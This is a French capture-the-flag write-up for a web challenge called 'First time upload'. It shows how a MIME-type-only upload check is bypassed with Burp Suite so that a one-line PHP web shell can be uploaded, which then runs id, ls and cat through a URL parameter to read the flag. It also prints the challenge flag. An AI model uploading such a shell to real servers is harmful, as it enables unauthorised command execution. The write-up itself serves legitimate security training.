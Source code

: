 # Write up : First time upload #

Catégorie :

```
Web
```

Consigne :

```
Lire le fichier flag sur le serveur.<p>

<FONT COLOR="#ff0000">Accès au site :<br>   <a href="http://game2.marshack.fr:8083" target="new">http://game2.marshack.fr:8083</a></FONT> <p>

```

Pièce jointe :

```
Aucune
```

Serveur :

```
game2
```

Points attribués :

```
20
```

Flag :

```
MARS{4B4Sl4H13r4Rch13d3Supl04D}
```



## Solution

Le site disponible présente une page d'upload de fichiers, un grand classique.

Le site indique que seules les images au format png peuvent être uplodées.

Le but est de réussir à contourner les sécurités mises en place et de réussir à uploader un web-shell pour lire les fichiers présents sur le serveur web.

Si on essaie d'uploader une image au format .png, cela fonctionne, mais si on essaie un fichier d'une autre extension, le site la refuse. Il est possible d'en déduire que le type MIME du fichier est vérifié avant de télécharger l'image.

Il est possible de le confirmer en utilisant **`burpsuite`** et en altérant le type MIME du fichier uploadé. Pour ce faire, uploadons une image au format JPEG en changeant son type MIME. 

Déclarer l'adresse du proxy **burp suite** sur firefox : 

- Protocole : http
- 127.0.0.1
- 8080 

Ou utiliser un addon firefox :

- Proxy SwitchOmega 2.5.20

![Modification de la requète au serveur](First time upload-images/screen_01-1.png)



![Image jpg upload avec succès](First time upload-images/screen_02.png)



![](First time upload-images/screen_01-2.png)

L'image avec l'extension .png a bien été uploadée, il est donc déduit que seul le type MIME est vérifié. Par conséquent, il est possible d'uploader un fichier php avec un web-shell.



Fichier : exploit.php

```php
<?php
system($_GET['command']);
?>
```

Il suffit de réitérer l'opération précédente avec le fichier **exploit.php**  mentionné ci-dessus

L'envoi est un succès.

![Upload avec succès](First time upload-images/screen_04.png)



![](First time upload-images\screen_04-2.png)



Enfin, il est nécessaire de se rendre sur la localisation de notre script PHP pour qu'il soit exécuté et lancer des commandes via notre `$_GET` dans l'url comme suit.

````
http://game2.marshack.fr:8083/uploads/exploit.php?command=id
````
![Execution du script php avec la commande id](First time upload-images/screen_05.png)

Le résultat nous montre que l'on peut exécuter des commandes avec les droits de l'utilisateur *www-data*.

A partir de là, il est possible d'aller chercher le flag dans l'arborescence et de le lire avec la commande `cat`.
```
http://game2.marshack.fr:8083/uploads/exploit.php?command=ls -la ../../../../

total 88 drwxr-xr-x 1 root root 4096 Feb 19 12:54 . drwxr-xr-x 1 root root 4096 Feb 19 12:54 .. -rw-r----- 1 root www-data 57 Feb 5 10:22 .TheFlag -rwxr-xr-x 1 root root 0 Feb 19 12:54 .dockerenv drwxr-xr-x 1 root root 4096 Jan 23 08:49 bin drwxr-xr-x 2 root root 4096 Apr 12 2016 boot drwxr-xr-x 5 root root 340 Feb 19 12:54 dev -r-x------ 1 root root 298 Feb 18 14:27 entrypoint.sh drwxr-xr-x 1 root root 4096 Feb 19 12:54 etc drwxr-xr-x 2 root root 4096 Apr 12 2016 home drwxr-xr-x 1 root root 4096 Jan 23 08:48 lib drwxr-xr-x 2 root root 4096 Jan 22 19:22 lib64 drwxr-xr-x 2 root root 4096 Jan 22 19:22 media drwxr-xr-x 2 root root 4096 Jan 22 19:22 mnt drwxr-xr-x 2 root root 4096 Jan 22 19:22 opt dr-xr-xr-x 225 root root 0 Feb 19 12:54 proc drwx------ 2 root root 4096 Jan 22 19:22 root drwxr-xr-x 1 root root 4096 Jan 23 08:49 run drwxr-xr-x 1 root root 4096 Jan 23 08:48 sbin drwxr-xr-x 2 root root 4096 Jan 22 19:22 srv dr-xr-xr-x 13 root root 0 Feb 18 14:08 sys drwxrwxrwt 1 root root 4096 Feb 19 13:35 tmp drwxr-xr-x 1 root root 4096 Jan 22 19:22 usr drwxr-xr-x 1 root root 4096 Jan 23 08:49 var 

```

Les retours à la ligne ne sont pas interprétés par le navigateur, passer en mode *view source* pour voir le résultat correctement aligné.

![Emplacement du fichier flag](First time upload-images/screen_06.png)

````
http://game2.marshack.fr:8083/uploads/exploit.php?command=cat%20../../../../.TheFlag
````

![Lecture du fichier flag](First time upload-images/screen_07.png)

Résultat: MARS{4B4Sl4H13r4Rch13d3Supl04D}



## Annexe : arborescence du site

```
./
|-- css
|   `-- scrolling-nav.css
|-- index.php
|-- js
|   `-- scrolling-nav.js
|-- uploads
|   `-- exploit.php
`-- vendor
    |-- bootstrap
    |   |-- css
    |   |   |-- bootstrap-grid.css
    |   |   |-- bootstrap-grid.min.css
    |   |   |-- bootstrap-reboot.css
    |   |   |-- bootstrap-reboot.min.css
    |   |   |-- bootstrap.css
    |   |   |-- bootstrap.css.map
    |   |   |-- bootstrap.min.css
    |   |   `-- bootstrap.min.css.map
    |   `-- js
    |       |-- bootstrap.bundle.js
    |       |-- bootstrap.bundle.js.map
    |       |-- bootstrap.bundle.min.js
    |       |-- bootstrap.bundle.min.js.map
    |       |-- bootstrap.js
    |       |-- bootstrap.js.map
    |       |-- bootstrap.min.js
    |       `-- bootstrap.min.js.map
    |-- jquery
    |   |-- jquery.js
    |   |-- jquery.min.js
    |   |-- jquery.min.map
    |   |-- jquery.slim.js
    |   |-- jquery.slim.min.js
    |   `-- jquery.slim.min.map
    `-- jquery-easing
        |-- jquery.easing.compatibility.js
        |-- jquery.easing.js
        `-- jquery.easing.min.js

```

